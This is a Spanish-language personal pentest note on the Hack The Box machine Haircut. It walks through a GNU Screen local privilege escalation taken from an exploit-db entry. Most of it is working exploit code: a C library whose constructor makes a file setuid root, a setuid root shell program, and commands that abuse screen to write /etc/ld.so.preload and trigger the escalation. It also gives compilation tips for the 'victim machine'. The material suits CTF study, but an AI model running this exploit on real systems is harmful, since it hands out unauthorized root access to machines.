 
## DESCRIPTION



#### Mas información
*  https://0xdf.gitlab.io/2020/09/10/htb-haircut.html


## EXPLOITATION

EXPLOIT: https://www.exploit-db.com/exploits/41154 → IMPORTANTE HAY QUE MODIFICAR EL EXPLOIT
1. 
```
cat << EOF > /tmp/libhax.c
#include <stdio.h>
#include <sys/types.h>
#include <unistd.h>
__attribute__ ((__constructor__))
void dropshell(void){
    chown("/tmp/rootshell", 0, 0);
    chmod("/tmp/rootshell", 04755);
    unlink("/etc/ld.so.preload");
    printf("[+] done!\n");
}
EOF
gcc -fPIC -shared -ldl -o /tmp/libhax.so /tmp/libhax.c
rm -f /tmp/libhax.c

```


2. 2º EN NUESTRA MAQUINA LA ROOTSHELL:

```
cat << EOF > /tmp/rootshell.c
#include <stdio.h>
int main(void){
    setuid(0);
    setgid(0);
    seteuid(0);
    setegid(0);
    execvp("/bin/sh", NULL, NULL);
}
EOF
gcc -o /tmp/rootshell /tmp/rootshell.c -static
rm -f /tmp/rootshell.c
```

  → AÑADIR EL PARAMETRO STATIC POR QUE DABA ERROR DE GLIB EN LA MAQUINA VICTIMA, ES DEBIDO A POR QUE UNO ES UBUNTU  Y LA KALI ES DEBIAN
3. Lo tranfereimos ala máquina victima
![[Pasted image 20230603133303.png]]
5. Ejecutamos
```
cd /etc
umask 000 
screen -D -m -L ld.so.preload echo -ne  "\x0a/tmp/libhax.so" 
echo "[+] Triggering..."
screen -ls 
/tmp/rootshell
```

![[Pasted image 20230603103132.png]]
## MACHINES

* Hack The Box: 

**!!NOTA IMPORTANTE!!** 